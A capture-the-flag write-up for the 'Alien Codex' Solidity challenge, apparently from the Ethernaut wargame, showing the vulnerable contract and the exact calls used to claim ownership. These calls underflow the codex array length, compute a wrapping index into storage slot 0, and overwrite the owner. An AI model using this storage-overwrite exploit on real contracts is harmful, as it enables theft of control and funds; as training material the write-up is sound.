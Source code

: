 ## 19. Alien Codex

Goal for this exercise is:

- Claim ownership


<br/>

Here is the contract code:
~~~
pragma solidity ^0.5.0;

import '../helpers/Ownable-05.sol';

contract AlienCodex is Ownable {

  bool public contact;
  bytes32[] public codex;

  modifier contacted() {
    assert(contact);
    _;
  }
  
  function make_contact() public {
    contact = true;
  }

  function record(bytes32 _content) contacted public {
  	codex.push(_content);
  }

  function retract() contacted public {
    codex.length--;
  }

  function revise(uint i, bytes32 _content) contacted public {
    codex[i] = _content;
  }
}
~~~

First call is `contract.make_contact()`
Then calling `contract.retract()`causes underflow in codex.length.
Which expands it to include all storage slots. Then with`revise(uint i, bytes32 _content)` all
storage slots are accessible, but tricky part is to find right index to call.

<br>

From solidity documentation: *Array data is located at keccak256(p) *
When p is a slot in storage, *this slot stores the number of elements in the array*

My trouble here was that I was calculating codex array start location with:
`web3.utils.keccak256("1")`
When correct way is:
`web3.utils.keccak256("0x0000000000000000000000000000000000000000000000000000000000000001")`

Start location with incorrect way (`web3.utils.hexToNumberString(web3.utils.keccak256("1"))`) became:
`90743482286830539503240959006302832933333810038750515972785732718729991261126`. When
correct resulted to `80084422859880547211683076133703299733277748156566366325829078699459944778998`

Then we can calculate which `i` call causes overflow in codex index and allows us to modify `owner` in slot 0.
Max index is `2 ** 256 - 1` so with array start location we can calculate needed `i`.

`(2**256 -1) - (<start location>) = 35707666377435648211887908874984608119992236509074197713628505308453184860937`
Using one bigger `i`than this will allow access to storage slot 0.

<br>

Last needed call was:
`contract.revise("35707666377435648211887908874984608119992236509074197713628505308453184860938", web3.utils.leftPad(player, 64))`














